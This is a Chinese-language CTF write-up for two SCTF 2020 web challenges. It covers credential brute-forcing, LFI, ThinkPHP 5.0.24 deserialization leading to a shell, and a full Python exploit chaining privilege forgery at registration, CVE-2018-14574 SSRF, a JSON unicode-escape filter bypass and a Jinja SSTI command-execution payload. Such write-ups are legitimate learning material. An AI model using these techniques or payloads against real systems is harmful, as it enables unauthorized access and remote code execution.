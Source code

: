 ```yaml
---
title: SCTF 2020 两道Web题 Writeup
tags: 
    - Writeup
    - CTF
date: 2020/7/7
---
```


## UnsafeDefenseSystem

PHP/5.6.26, tp 5.0.24
经过一番吐血的信息搜集，看到了这个破静态站的源码里竟然有注释  

![](https://ctfmd.xdsec.club/uploads/upload_d3572c4af736a3621df2c5d9a0d8dfc3.png)

> 我要对出题人使出极限一换一

访问/protect.py能看到一个超长的憨批监控脚本，其实也不用看  
在静态站注释提示的/public/nationalsb/login.php的注释中又看到了关于密码的提示

![](https://ctfmd.xdsec.club/uploads/upload_c3dce2e24a6217c06435bd88b4e44358.png)

通过爆破得到用户名密码：

```text
Admin1964752
DsaPPPP!@#amspe1221
```

后台存在lfi。经过一番读文件，看到index controller中存在反序列化点

![](https://ctfmd.xdsec.club/uploads/upload_92c0e1d78c4e1981c6e7f1d75a0c6155.png)

结合上文所知道的thinkphp版本可以搜到:

https://althims.com/2020/02/07/thinkphp-5-0-24-unserialize/  
https://xz.aliyun.com/t/7594

出题人可能是想让条件竞争过protect.py，但是实际上我们可以往/tmp目录底下写文件，并且在nationalsb那里包含这一文件，最终拿到shell

![](https://ctfmd.xdsec.club/uploads/upload_3a2a885678d19c586bdb51dfe17fe595.png)

## jsonhub

白盒审计。对外开放的是web1，一个Django服务，内网还有个flask。

首先整理思路：首先要过那个django的token，然后ssrf请求flask_rpc，这样才能带上Content-Type发POST请求

![](https://ctfmd.xdsec.club/uploads/upload_118579d0281fc597615351bf482cee94.png)

很明显，注册的时候参数完全可控，也就是说可以伪造管理员身份。将两个字段，`is_superuser`与`is_staff`都设置为True，就能访问 `http://39.104.19.182/admin/app/token/` 拿到token了。

在请求后方flask服务前，django服务对`REMOTE_URL`进行了验证。由于题目部署在了docker里，访问公网ip时`REMOTE_URL`实际上是172.多少多少（即使不在docker里也是公网ip）。

https://xz.aliyun.com/t/3302  
利用CVE-2018-14574漏洞进行跳转即可

再看第二个服务：

```python
@app.before_request
def before_request():
    data = str(request.data)
    log()
    if "{{" in data or "}}" in data or "{%" in data or "%}" in data:
        abort(401)
...
    json.loads(...)
```

python中的json模块在解析json时会自动将转义过的字符恢复，所以可以用`"\u007b"`来绕过`before_request`
关于表达式的正则过滤，由于对符号的过滤不严格导致了一个非预期，甚至完全不需要管num1和num2：

exploit:

```python
from requests import Request, session, get, post
from bs4 import BeautifulSoup
from base64 import b64encode
import json
HOST = 'http://39.104.19.182'


ses = session()
USER = 'frkasdf'
PASS = 'qwer'

# session 默认keep-alive，这个服务端好像有点连接性问题，所以单独请求
post(HOST + '/reg/', json={
    'username': USER,
    'password': PASS,
    'is_staff': True,
    'is_superuser': True
}).json()['code']

ses.post(HOST + '/login/', json={
    'username': USER,
    'password': PASS,
})

page = BeautifulSoup(get(
    HOST + '/admin/app/token/', cookies=ses.cookies
).text, 'lxml')
token = page.find('td', attrs={'class': 'field-Token'}).text

ssti = '{{config.__class__.__init__.__globals__["os"].popen("/readflag").read() + ""}}'

payload = ('{' + json.dumps({
    'num1': '', 'num2': '', 'symbols': ssti,
})[1:-1].replace('{', '\\u007b').replace('}', '\\u007d') + '}')

payload = b64encode(payload.encode()).decode()

req = Request('GET', HOST + '//127.0.0.1:8000/flask_rpc', params={
    'methods': 'POST',
    'url': 'http://localhost:5000/caculator',
    # flask在:5000
    'data': payload
}).prepare()

print(json.loads(ses.post(HOST + '/home/', json={
    'url': req.url,
    'token': token
}).json()['message'])['message'])
```
